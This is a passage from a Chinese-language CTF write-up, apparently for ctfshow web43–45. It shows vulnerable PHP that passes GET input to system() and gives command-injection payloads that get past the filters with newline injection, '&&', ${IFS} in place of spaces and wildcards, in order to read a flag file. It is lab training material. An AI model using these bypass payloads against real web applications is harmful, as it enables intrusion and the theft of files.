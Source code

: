 ```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

相较于上题,多过滤了;和cat,思路还是一样,在找个命令连接符就行了

[命令连接符总结](../../21/命令连接符总结/)

两个payload

`c=tac flag.php&&ls`,但是&不会自动编码,得手动url编码一下才行

`tac flag,php%0a`利用换行符

### web44

同理,用`*`绕过flag就行了

`c=tac flag.php&&ls`

### web45

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

本题多了个空格的过滤,想办法绕过空格过滤z

payload

`c=tac${IFS}fl*%26%26ls`

给的payload

```bash
echo$IFS`tac$IFS*`%0A
```

经过这道题应该总结一下linux中rce的空格绕过方法了

#### linux中rce的空格绕过方法

##### 1)${}IFS}绕过
